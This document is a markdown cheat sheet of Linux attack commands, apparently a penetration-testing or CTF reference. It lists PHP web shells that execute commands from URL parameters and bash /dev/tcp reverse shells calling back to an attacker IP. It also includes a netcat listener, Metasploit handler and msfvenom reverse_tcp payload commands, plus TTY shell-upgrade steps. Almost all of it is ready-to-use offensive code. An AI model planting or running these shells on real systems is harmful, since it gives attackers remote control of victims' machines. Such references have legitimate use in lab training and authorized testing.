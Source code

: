# Linux  PHP > Rev Shell > Shell Upgrade Commands

##🐈‍⬛ PHP
```
<?php system($_GET['cmd']);?>

<?php
if (isset($_GET['command'])) {
    exec($_GET['command']);
}
?>
```
## 🎃 Bash TCP Shell

## ⭐ Attacker
```
nc -lvnp 4444
```
##🌙 Victim
```

/bin/bash -i 5<> /dev/tcp/10.10.14.13/4444 0<&5 1>&5 2>&5
bash -i >& /dev/tcp/10.10.14.13/4444 0>&1
0<&196;exec 196<>/dev/tcp/10.10.14.13/4444; sh <&196 >&196 2>&196
/bin/bash -l > /dev/tcp/10.10.14.13/4444 0<&1 2>&1

```
## 🎃 Meterpreter Shells

## ⭐ Attacker
```
msfconsole
search multi handler
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 10.0.0.1
set LPORT 4242
exploit
```
##🌙 Victim

###🌙 Linux Staged reverse TCP

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf >reverse.elf

```
###🌙 Linux Stageless reverse TCP

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf >reverse.elf

```

## 🎃 Python Shell Upgrade
```
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## 🎃 TTY Shell Upgrade

```
script /dev/null -c bash
export TERM=xterm
# Control + z
stty raw -echo && fg
# Press Enter (Return) twice
```

## 🎃 Shell To Bash Upgrade
```
SHELL=/bin/bash script -q /dev/null
```
